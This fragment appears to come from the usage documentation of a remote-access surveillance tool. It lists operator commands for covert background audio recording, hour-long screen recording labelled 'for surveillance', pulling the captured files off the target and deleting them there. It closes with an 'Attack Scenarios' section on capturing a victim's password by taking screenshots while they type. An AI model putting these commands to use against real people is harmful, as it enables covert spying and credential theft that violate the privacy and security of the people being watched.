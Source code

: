 ### Audio

```bash
# Background recording (recommended for meetings/conversations)
audio_start
# ... wait for desired duration ...
audio_stop
audio_list
download logs/audio/audio_TIMESTAMP.wav

# Short fixed-duration recordings
audio_record 30
download logs/audio/audio_TIMESTAMP.wav

# Check status during recording
audio_status
```

### Screen Recording

```bash
# For demos/presentations
record_screen 120 24  # 2 min, 24 FPS

# For surveillance
record_start 3600     # Background, 1 hour max
record_status         # Check progress
record_stop           # Stop when needed
```

### Resource Management

```bash
# Check file sizes before downloading
screenshot_list
audio_list
record_list

# Download and delete to free space
download logs/recordings/video.mp4
# Then on target: rm logs/recordings/video.mp4
```

## Attack Scenarios

### Scenario 1: Password Capture

```bash
# User about to enter password
screenshot  # Before
# Wait for typing
screenshot  # After
# Visual evidence of password field
```
